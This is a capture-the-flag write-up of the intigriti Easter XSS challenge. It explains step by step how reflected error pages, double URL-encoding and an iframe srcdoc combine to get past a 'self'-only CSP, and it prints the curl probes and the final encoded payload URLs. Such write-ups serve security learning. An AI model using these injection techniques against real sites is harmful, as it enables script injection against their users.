 ```yaml
---
layout: writeup
categories: [writeup]

# Mandatory parameters
title:  "Easter XSS Challenge"
author: "Alain K."
date:   2020-04-13 21:00:05 +0200
event: "intigriti"

# Optional parameters
ctf_categories: [xss, csp, web]
image: "website.png"
---
```



## Description

Every once in a while, [intigriti](https://www.intigriti.com/) drops a new XSS challenge. (Follow them on [Twitter](https://twitter.com/intigriti) to know when the next one drops). The challenge had a pretty straightforward description:

> Find a way to execute arbitrary javascript on this page and win a Burp Suite Pro License.

With the following conditions:

* Should work on the latest version of Firefox or Chrome
* Should bypass CSP
* Should execute the following JS: alert(document.domain)
* Should be executed on this page, on this domain
* Should work without user interaction (no self XSS) or MiTM

## Analysis

### Appearence & Behaviour

![Website Screenshot](website.png)

The website was very simple. It had one simple functionality, which was for the user to select the title of a slogan in a drop-down and then the whole slogan text would appear below the drop-down.

One can also notice that the location hash changed depending on the selection in the drop-down. Also, when loading the website with a correct hash, that slogan text would appear without user interaction.

### Source Code
Next, I looked at the source code. The HTML was very simple and had nothing interesting to exploit. However, it included the following script:

```js
var hash = document.location.hash.substr(1);
if(hash){
	displayReason(hash);
}
document.getElementById("reasons").onchange = function(e){
if(e.target.value != "")
	displayReason(e.target.value);
}

function reasonLoaded () {
	var reason = document.getElementById("reason");
	reason.innerHTML = unescape(this.responseText); //❶
}

function displayReason(reason){
	window.location.hash = reason;
	var xhr = new XMLHttpRequest();
	xhr.addEventListener("load", reasonLoaded);
	xhr.open("GET",`./reasons/${reason}.txt`); //❷
	xhr.send();
}
```
Here it starts getting interesting. `displayReason` is called with the location hash as parameter. It will then load a text file with the hash's name using xhr ❷ and finally `reasonLoaded` will be executed, which renders the content of that *unescaped* text file using *innerHTML* ❶.


Trying to load a file that doesn't exist (`https://challenge.intigriti.io/reasons/20.txt`) we get the following error:

```html
404 - 'File "20.txt" was not found in this folder.'
```

It's interesting that the filename that doesn't exist gets reflected in the error message.


### HTTP Headers

When trying to execute XSS, it is important to know which CSP is set. The CSP header allows us to know what resources are possible to load. As a hacker this can "help" us reduce the attack surface. For this challenge, the CSP header is set to:

```content-security-policy: default-src 'self'```

This means, that no resources (scripts, images, ...) from other hosts can be loaded. Also we can't execute own inline scripts (`<script>alert(1)</script>`, `document.location=javascript:alert(1)`, `<img src onerror=alert(1)>`). This leaves us with the only option to load js using `<scipt src="blub.js">` where `blub.js` is hosted on the same host as the website itself. So trying to load scripts from a server we control is useless.

Another interesting header to look at is the `X-Frame-Options` header. Here it is not set, meaning we could load the website inside an iframe. This can be useful sometimes to change the hash location during run-time without user interaction.

## Attack
OK, now that I gathered enough information, I started with the interesting part: the attack! :)

The code at ❶ is the only part where dynamic content is added to the website. So this has to be the sink where our payload needs to be written.

We found out in the analysis that the filename we try to gather gets reflected in the error message. Let's try to reflect our own html elements:

```
curl https://challenge.intigriti.io/reasons/%3Cimg%20src=x%3E.txt

404 - 'File "_3Cimg_20src=x_3E.txt" was not found in this folder.'
```

Huh, what happened here? They seem to filter the user input. Precisely, they replace all occurrences of `%` with `_`. Dang, we need `<` and `>` to reflect our own HTML. This is impossible without URL-encoding them. Maybe their filtering has some weak spots. Let's try double encoding, just to be sure:

```
curl https://challenge.intigriti.io/reasons/%253Cimg%2520src%253Dx%253E.txt

404 - 'File "_253Cimg_2520src_253Dx_253E.txt" was not found in this folder.'
```

Too bad, would have been too easy. But hey, even if I can't reflect my own html elements. Maybe I can use this reflection later for generating my own js code that is hosted on their site. `404 - 'File "%s" was not found in this folder.'` seems to be the static string. `404 -` is a valid js subtraction if we provide a correct right hand expression. As we control `%s`, maybe we can close the single quote before "File" and then execute our own js? Let's try:

```
curl "https://challenge.intigriti.io/reasons/';alert(1);a='"

404 - 'File "';alert(1);a='" was not found in this folder.'
```

Nice, they don't escape the single quote so we manage to generate our own valid javascript code!

Now I found a way to bypass the CSP by using `<script src="reasons/';alert(1);a='">` but I still have no way to include that script tag inside the HTML...

After playing around for a while, I tried to access `.htaccess` and to my surprise I received a different response than the typical `File was not found in this folder`:

```html
<!DOCTYPE  HTML  PUBLIC  "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess on this server.</p>
```

Hmm, maybe it's possible to reflect more than the file name with the query string: `./htacess?reflect`

```html
curl https://challenge.intigriti.io/.htaccess?reflect

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess?reflect on this server.</p>
```

Nice, let's try if we manage to reflect our own HTML here:

```html
curl https://challenge.intigriti.io/.htaccess?%3Cimg%20src=x%3E

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess?&lt;img src=x&gt; on this server.</p>
```

Dang, here they correctly html escape the `<` and `>`. But wait! In ❶ they use the `unescape`function before setting the innerHTML. So we should be able to double escape our payload and itshould get unescaped once by the script that shows the forbidden page and once again by the `unescape` call. Let's try it all out, by appending `.htaccess` with our double-encoded image tag to the location hash:

```html
https://challenge.intigriti.io/#.htaccess?%253Cimg%2520src%253Dx%253E
```

![Successful HTML reflection](html.png)

What have we got here! Our own html on their page! Now that we have our 2 building blocks: Our own HTML and a CSP bypass, let's try to combine them:

```html
https://challenge.intigriti.io/#.htaccess?%253Cscript%2520src%253D%2522reasons%252F%2527%253Balert%25281%2529%253Ba%253D%2527%2522%253E%253C%252Fscript%253E

(the long encoded string is <script src="reasons/';alert(1);a='"></script> double url-encoded.)
```

But nothing happens... I completely forgot: `innerHTML` doesn't execute script tags anymore since HTML5. I know of some bypasses using `<img src onerror="alert(1)">` but these were all inline scripts which got all blocked by the CSP... Maybe I can include an iframe with a script tag that will still execute using innerHTML?

```html
<iframe srcdoc="<script src=reasons/';alert(1);a='></script>"></iframe>
```

Double encoding it and appending it to `.htaccess`:

```html
https://challenge.intigriti.io/#.htaccess?%253Ciframe%2520srcdoc%253D%2522%253Cscript%2520src%253Dreasons%252F%2527%253Balert%25281%2529%253Ba%253D%2527%253E%253C%252Fscript%253E%2522%253E%253C%252Fiframe%253E
```

![Final exploit](finished.png)



## Lessons learned

- Even if you find something that isn't quite useful yet, it might come in handy later
- Check and understand the CSP policy
- Double encoding to the rescue